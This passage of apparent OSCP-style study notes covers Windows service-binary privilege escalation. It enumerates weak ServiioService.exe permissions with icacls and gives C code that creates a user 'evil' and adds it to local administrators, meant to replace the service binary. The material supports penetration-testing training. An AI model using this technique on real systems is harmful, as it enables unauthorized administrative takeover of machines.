• As a next step, we’ll enumerate the permissions on the target service with the icacls Windows utility. 

• This utility will output the service’s Security Identifiers (or SIDs) followed by a permission mask, which are defined in the icacls documentation.

•  The most relevant masks and permissionsare listed below:

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/18/132.jpg)

• We can run icacls, passing the full service name as an argument. The command output willenumerate the associated permissions:

C:\Users\student> icacls "C:\Program Files\Serviio\bin\ServiioService.exe"
C:\Program Files\Serviio\bin\ServiioService.exe BUILTIN\Users:(I)(F)
 NT AUTHORITY\SYSTEM:(I)(F)
 BUILTIN\Administrators:(I)(F)
APPLICATION PACKAGE AUTHORITY\ALL APPL
ICATION PACKAGES:(I)(RX)
Successfully processed 1 files; Failed processing 0 files


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/18/133.jpg)


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/18/134.jpg)

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/18/135.jpg)

• As suspected, the permissions associated with the ServiioService.exe executable are quite interesting. 

• Specifically, it appears that any user (BUILTIN\Users) on the system has full read and write access to it. This is a serious vulnerability

• In order to exploit this type of vulnerability, we can replace ServiioService.exe with our own malicious binary and then trigger it by restarting the service or rebooting the machine.

• We’ll demonstrate this attack with an example. The following C code will create a user named “evil”and add that user to the local Administrators group using the system529 function. 

• The compiledversion of this code will serve as our malicious binary:


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/18/136.jpg)


#include <stdlib.h>
int main ()
{
 int i;

 i = system ("net user evil Ev!lpass /add");
 i = system ("net localgroup administrators evil /add");
  return 0;
}


